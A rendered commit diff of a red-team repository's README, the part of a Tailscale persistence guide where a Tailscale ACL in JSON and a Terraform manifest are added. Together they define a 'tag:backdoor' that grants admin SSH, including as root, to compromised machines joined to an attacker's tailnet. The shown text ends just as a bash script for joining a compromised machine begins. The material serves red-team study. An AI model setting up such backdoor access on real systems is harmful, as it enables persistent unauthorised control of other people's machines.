

Before and after one commit to R3DRUN3/sploitcraft, a Markdown page: red-team-infra/README.md, the part around the change printed below. Shown: that part at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
feat(read-team-infra): update tailscale persistence guide
Signed-off-by: r3drun3 <simone.ragonesi@protonmail.com>

````diff
--- a/red-team-infra/README.md
+++ b/red-team-infra/README.md
@@ -253,7 +252,99 @@ and modify the “ssh” section of the default Access List by setting the “ac
 
-![acl](./images/tailscale-acl.png)
+```json
+
+{
+  "acls": [
+    {
+      "action": "accept",
+      "dst": [
+        "*:*"
+      ],
+      "src": [
+        "*"
+      ]
+    },
+    {
+      "action": "accept",
+      "dst": [
+        "tag:backdoor:*"
+      ],
+      "src": [
+        "autogroup:admin"
+      ]
+    }
+  ],
+  "ssh": [
+    {
+      "action": "accept",
+      "dst": [
+        "tag:backdoor"
+      ],
+      "src": [
+        "autogroup:admin"
+      ],
+      "users": [
+        "autogroup:nonroot",
+        "root"
+      ]
+    }
+  ],
+  "tagOwners": {
+    "tag:backdoor": [
+      "autogroup:admin"
+    ]
+  }
+}
+```
+If you want, you can also automate this configuration via the following terraform manifest:
+```hcl
+terraform {
+  required_providers {
+    tailscale = {
+      source  = "tailscale/tailscale"
+      version = "0.16.2"
+    }
+  }
+}
+
+provider "tailscale" {
+  oauth_client_id = var.oauth_client_id
+  oauth_client_secret = var.oauth_client_secret
+}
+
+resource "tailscale_acl" "as_json" {
+  acl = jsonencode({
+    tagOwners = {
+      "tag:backdoor" = ["autogroup:admin"]
+    },
+
+    acls = [
+      {
+        action = "accept",
+        src    = ["*"],
+        dst    = ["*:*"]
+      },
+      {
+        action = "accept",
+        src    = ["autogroup:admin"],
+        dst    = ["tag:backdoor:*"]
+      }
+    ],
+
+    ssh = [
+      {
+        action = "accept",
+        src    = ["autogroup:admin"],
+        dst    = ["tag:backdoor"],
+        users  = ["autogroup:nonroot", "root"]
+      }
+    ]
+  })
+}
+```
+
+
+
 At this point you are able to connect the compromised machine to your tailnet.
-
 In order to do that, you will need the following bash script:
 ```sh
 #!/bin/bash
````
Also changed, not shown: other parts of red-team-infra/README.md (+9 -9 lines), red-team-infra/images/tailscale-oauth-key.png (added).
